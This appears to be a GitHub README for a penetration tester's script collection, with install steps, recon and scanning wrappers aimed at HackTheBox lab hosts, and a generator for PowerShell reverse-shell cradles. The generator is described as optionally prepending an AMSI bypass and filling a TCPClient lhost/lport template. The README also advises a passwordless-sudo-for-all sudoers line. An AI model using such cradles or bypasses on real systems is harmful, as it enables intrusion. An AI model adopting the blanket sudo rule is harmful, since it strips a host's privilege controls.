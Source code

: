 # scripts

Here are a collection of scripts I use regularly for offensive security-related tasks.

![](img/recon_setup_demo.gif)

## Install

```bash
# Install dependencies (kali only)
sudo apt install python3-impacket python3-libtmux python3-requests python3-rich python3-urllib3 python3-watchdog

# Clone repo and cd
sudo git clone https://github.com/Mojo8898/scripts.git /opt/scripts
cd /opt/scripts

# Set standalone scripts as to be executable
sudo chmod +x recon_setup/recon_setup.py cradle_gen.py scan_machine.py scan_targets.py

# Create symbolic links to add standalone scripts to $PATH (pipx compatibility coming soon?)
sudo ln -s /opt/scripts/recon_setup/recon_setup.py /usr/local/bin/recon_setup.py
sudo ln -s /opt/scripts/scan_machine.py /usr/local/bin/scan_machine.py
sudo ln -s /opt/scripts/scan_targets.py /usr/local/bin/scan_targets.py
sudo ln -s /opt/scripts/cradle_gen.py /usr/local/bin/cradle_gen.py
```

Some automated scripts including the built-in nmap wrapper require sudo to run properly. Either execute scripts as root or add the following line to the bottom of your `/etc/sudoers` file using the command `sudo visudo` to prevent password prompts.

```
kali    ALL=(ALL) NOPASSWD: ALL
```

## Example Usage

### recon_setup.py

```bash
# Just configure working environment
recon_setup.py administrator -i 10.10.10.10 -v ~/htb/competitive_Mojo098.ovpn

# Configure working environment and launch automated tasks
recon_setup.py administrator -i 10.10.10.10 -v ~/htb/competitive_Mojo098.ovpn -a -u olivia -p 'ichliebedich'

# Launch inside of exegol and utilize the HackTheBox CLI
recon_setup.py administrator -x --spawn administrator -a -u olivia -p 'ichliebedich'
```

### scan_machine.py

```bash
scan_machine.py 10.10.10.10
```

### scan_targets.py

```bash
scan_targets.py external_hosts.txt
```

### cradle_gen.py

```bash
cradle_gen.py 10.10.10.10 9001 -l
```

**Note:**
- To include an AMSI bypass with the Powercat cradle, create a file named amsi_bypass.txt in this project’s root directory. This file should contain the AMSI bypass code that will be prepended to the generated cradle.
- To include a raw socket PowerShell cradle, create a file named raw_socket.txt in this project’s root directory. Within this file, define the connection using Python’s string formatting placeholders for lhost and lport. For example:

```
System.Net.Sockets.TCPClient('{lhost}',{lport})
```
